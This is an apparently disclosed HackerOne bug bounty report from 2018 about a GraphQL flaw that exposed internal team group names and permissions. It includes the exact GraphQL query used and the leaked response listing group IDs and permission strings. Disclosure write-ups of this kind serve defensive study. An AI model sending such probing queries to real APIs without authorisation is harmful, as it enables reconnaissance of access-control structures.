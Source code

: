 # Team object in GraphQL discloses team group names and permissions

## Report Details
- **Report ID**: 343464
- **URL**: https://hackerone.com/reports/343464
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-04-26T14:11:21.961Z
- **Disclosed**: 2018-05-04T01:08:39.247Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi team. We can disclosed your team member groups ;)
**Description:**
Because of the communications error, we can disclose the data - `team_member_groups{id,name,permissions}`
### Steps To Reproduce

1. {"query": "query {team(handle:\\\"security\\\"){id,name,handle,██████{total_count},team_member_groups{id,name,permissions}}}"}

Result:
`{"data":{"team":{"id":"Z2lkOi8vaGFja2Vyb25lL1RlYW0vMTM=","name":"HackerOne","handle":"security",
"██████":{"total_count":30},"team_member_groups":[{"id":"7506","name":"Support","permissions":["support_mutation"]},{"id":"8126","name":"Report Only","permissions":["report_management"]},{"id":"8023","name":"Support - SAML","permissions":["support_saml"]},{"id":"8024","name":"Support - Directory","permissions":["support_directory"]},{"id":"9492","name":"Support - Customer Success","permissions":["support_customer_success"]},{"id":"9880","name":"Support - Sales","permissions":["support_sales"]},{"id":"11365","name":"Support - Finance","permissions":["support_finance"]},{"id":"11947","name":"Support - Marketing","permissions":["support_marketing"]},{"id":"16233","name":"Support - Human Resources","permissions":["support_hr"]},{"id":"19143","name":"Support - Hacker Success","permissions":["support_hacker_success"]},{"id":"21045","name":"Program Management","permissions":["program_management"]},{"id":"21046","name":"Support - Open Source Review","permissions":["support_open_source_review"]},{"id":"34558","name":"Kerk Squad","permissions":["report_management"]},{"id":"34881","name":"Support - SQL Query Analyzer","permissions":["support_sql_query_analyzer"]},{"id":"134","name":"Admin","permissions":["user_management","program_management"]},{"id":"135","name":"Standard","permissions":["report_management","reward_management"]}]}}}`

████████

Sorry i bad speak english
I hope you understand me
Thank you,haxta4ok00

## Impact

Disclosed name and permissions groups

## Attachments
No attachments
